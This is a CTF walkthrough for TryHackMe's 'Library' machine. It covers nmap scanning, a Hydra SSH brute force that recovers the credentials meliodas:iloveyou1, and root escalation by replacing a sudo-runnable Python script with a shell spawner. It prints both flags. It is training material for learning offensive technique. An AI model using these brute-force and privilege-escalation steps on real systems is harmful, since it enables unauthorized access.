

# Library


## Summary

[Library](https://tryhackme.com/room/bsidesgtlibrary "Library CTF On TryHackMe") is a begginer friendly CTF hosted by [TryHackMe](https://tryhackme.com/ "TryHackMe Webiste") and created by [Stuxnet](https://twitter.com/__stux "StuxNet Twitter Profile").

This CTF requires **basic** knowledge of:

* Basic Linux commands such as ```ping```, ```ls```, ```cd```, ```cat```, ```sudo```, and ```rm```.

* Port scanning with tools like ```NMAP```.

* ```OSINT``` (Open Source Intelligence).

* Brute forcing SSH login with tools like ```Hydra```.

* Creating/editing files in Linux with command line text editors like ```Nano```.

---

## Contents

* [Getting Started](#getting-started "Jump To Getting Started")

* [Port Scanning](#port-scanning "Jump To Port Scanning")

* [Robots File](#robots-file "Jump To Robots File")

* [OSINT](#osint "Jump To OSINT")

* [Hydra](#hydra "Jump To HYDRA")

* [Initial Access - First Flag](#initial-access "Jump To Initial Access")

* [Vertical Escalation - Root Flag](#vertical-escalation "Jump To Vertical Escalation")

---

## Getting Started

As always we start off by ensuring the target machine is up and running by pinging the target IP address.

```
$ ping <IP_Address>

PING <IP_Address> (<IP_Address>) 56(84) bytes of data.
64 bytes from <IP_Address>: icmp_seq=1 ttl=61 time=161 ms
64 bytes from <IP_Address>: icmp_seq=2 ttl=61 time=160 ms
64 bytes from <IP_Address>: icmp_seq=3 ttl=61 time=159 ms
64 bytes from <IP_Address>: icmp_seq=4 ttl=61 time=160 ms

--- <IP_Address> ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 158.818/160.136/161.498/0.950 ms
```

[Back To Top](#library "Jump To Top")

---

## Port Scanning

Once we've verified the machines connectivity, we can move on to a port scan using ```nmap```. We'll use the ```-A``` flag to specify an aggressive scan, this will return open ports, services, as well as other useful information.

```
$ nmap -A <IP_Address>

Nmap scan report for <IP_Address>
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After running the port scan we'll see two open ports.

* ```PORT 22``` - SSH (Secure Shell)

* ```PORT 80``` - HTTP (HyperText Transfer Protocol)

We can also see that the website at ```PORT 80``` has a [robots.txt](https://en.wikipedia.org/wiki/Robots.txt "Robots Text File WikiPedia Page") file.

```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
```

Naturally, our next step should be visiting the webpage and reading that file. 

[Back To Top](#library "Jump To Top")

---

## Robots File

Before we visit the homepage for the website we should read the contents of the [robots.txt](https://en.wikipedia.org/wiki/Robots.txt "Robots Text File WikiPedia Page") file we found during the ```nmap``` scan.

Navigating to ```http://<IP_Address>/robots.txt``` we'll see a reference to the [rockyou](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz "RockYou Password File On GitHub") wordlist, a hint that we'll need to brute force a service with this password list.

```
User-agent: rockyou
Disallow: /
```

Now we should start looking through the website for other useful information.

[Back To Top](#library "Jump To Top")

---

## OSINT

If we go through the website we won't find any login forms or other directories. But we do find an admins username through a blog post on the main page.



We have a username (```meliodas```) and we know the password can be found in the ```rockyou``` wordlist, that should be enough to bruteforce the ```SSH``` login.

[Back To Top](#library "Jump To Top")

---

## Hydra

The only piece of the credentials we have is the username, so we'll have to bruteforce the password with ```Hydra```.

The syntax for bruteforcing ```SSH``` with a known username and unknown password is ```hydra -l <username> -P <wordlist> <IP_Address> ssh```.

```
$ hydra -l meliodas -P /path/to/word/list <IP_Address> ssh

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://<IP_Address>:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344222 to do in 1350:41h, 16 active
[22][ssh] host: <IP_Address>   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
```

After a couple minutes we'll get a hit.

```
[22][ssh] host: <IP_Address>   login: meliodas   password: iloveyou1
```

Credentials - ```meliodas:iloveyou1```

[Back To Top](#library "Jump To Top")

---

## Initial Access

Finally, we can log in and look for the first flag.

```
$ ssh meliodas@<IP_Address>

meliodas@<IP_Address>'s password: iloveyou1
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

meliodas@ubuntu:~$
```

After logging in, we'll be dumped into the home directory of ```meliodas```, and if we list all contents of the current directory we'll see the ```user.txt``` file.

```
meliodas@ubuntu:~$ ls -la

total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
```

If we ```cat``` the ```user.txt``` file we'll find our first flag.

```
meliodas@ubuntu:~$ cat user.txt

6d488cbb3f111d135722c33cb635f4ec
```

[Back To Top](#library "Jump To Top")

---

## Vertical Escalation

Focusing on vertical escalation now, we can run the ```sudo -l``` command to list all sudo permissions for the current user, where we'll see that ```meliodas``` can run the ```bak.py``` file as ```sudo```.

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

If we ```cat``` the ```bak.py``` file in ```meliodas``` home directory we'll see that it's not useful to us, so running it as sudo won't help us.

```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

We can't edit this file because we only have read privileges. We can, however, delete this file and create another with the same name, that **does** help us elevate our privileges.

```
meliodas@ubuntu:~$ rm bak.py
rm: remove write-protected regular file 'bak.py'? yes
```

Once we've removed the file we'll recreate it using the ```nano``` text editor.

```meliodas@ubuntu:~$ nano bak.py```

In the editor we'll insert the following lines of ```Python``` code.

```
import os
os.system("/bin/sh")
```

If you ```cat``` the ```bak.py``` file after editing, it should look like this...

```
meliodas@ubuntu:~$ cat bak.py

import os
os.system("/bin/sh")
```

This program if ran as ```sudo``` won't drop ```root``` privileges, so all we have to do now is run it.

```sudo /usr/bin/python3 /home/meliodas/bak.py```

We can verify we're root now with ```whoami```.

```
# whoami
root
```

Now all we need to do is find the ```root``` flag by changing into the ```root``` directory and listing all contents there.

```
# cd /root

# ls -la

total 28
drwx------  3 root root 4096 Aug 24  2019 .
drwxr-xr-x 22 root root 4096 Aug 24  2019 ..
-rw-------  1 root root   43 Aug 24  2019 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Aug 23  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 23  2019 root.txt
```

And finally, once we've found the ```root.txt``` file, we can ```cat``` it to read the flag.

```
# cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```

[Back To Top](#library "Jump To Top")
